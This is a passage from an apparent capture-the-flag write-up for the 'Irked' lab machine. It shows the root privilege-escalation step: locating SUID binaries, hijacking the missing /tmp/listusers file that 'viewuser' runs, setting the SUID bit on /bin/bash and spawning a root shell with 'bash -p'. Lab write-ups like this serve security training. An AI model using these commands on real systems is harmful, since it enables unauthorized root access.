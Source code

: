 ```bash
su djmardov
# :)
sudo -l
id
groups

find \-perm -4000 2>/dev/null
# ./usr/bin/pkexec        Not intended path
# ./usr/bin/X
# ./usr/bin/viewuser

ls -l ./usr/bin/X
./usr/bin/X
ls -l ./usr/bin/viewuser
./usr/bin/viewuser
# sh: 1: /tmp/listusers: not found            File hijacking ?
```

<br />
<img src="{{ site.img_path }}/irked_writeup/Irked_16.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/irked_writeup/Irked_17.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/irked_writeup/Irked_18.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/irked_writeup/Irked_19.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br /><br />

The file does not exist in the path it should be, so my next step is to create a file but with a malicious command that enables the **Bit SUID** in the **Bash** shell. After giving my malicious file execution permissions, I run the `viewuser` binary and check that the **Bash** shell permissions have been changed, so I can migrate to one, without needing to enter the **root** password. I can now access the last flag, pwned machine.

```bash
cd /tmp
ls -la
# listusers not exist :)

touch /tmp/listusers
nano /tmp/listusers
cat !$
```

> **listusers**:

```bash
#!/bin/bash
chmod u+s /bin/bash
```

```bash
ls -l /bin/bash
# -rwxr-xr-x 1 root root 1105840 Nov  5  2016 /bin/bash

/usr/bin/viewuser
chmod +x listusers
/usr/bin/viewuser
ls -l /bin/bash
# -rwsr-xr-x 1 root root 1105840 Nov  5  2016 /bin/bash
bash -p
# :)
```
